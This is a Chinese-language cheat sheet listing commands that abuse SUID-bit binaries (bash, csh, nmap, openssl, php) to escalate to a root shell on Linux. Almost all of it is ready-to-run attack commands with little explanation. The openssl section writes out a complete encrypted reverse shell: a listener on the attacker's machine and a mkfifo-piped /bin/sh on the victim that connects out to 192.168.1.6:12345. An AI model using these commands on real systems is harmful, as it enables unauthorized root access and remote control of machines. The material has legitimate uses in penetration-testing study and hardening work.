 
## 可利用 SUID 提权的命令

### bash

```bash
bash -p
```

### csh

```bash
csh -b
```

### nmap

- [x] nmap 2.02 - 5.21

```bash title="旧版"
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
```

```bash title="新版"
echo "os.execute('/bin/bash -p')" > /tmp/shell.nse
nmap --script=/tmp/shell.nse 127.0.0.1
```

### openssl

```bash title="攻击者机器"
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
```

```bash title="被攻击者机器"
RHOST=192.168.1.6

RPORT=12345

mkfifo /tmp/s; /bin/sh -p -i < /tmp/s 2>&1 | openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```

### php

```bash
CMD="/bin/sh"

php -r "pcntl_exec('/bin/sh', ['-p']);"
```
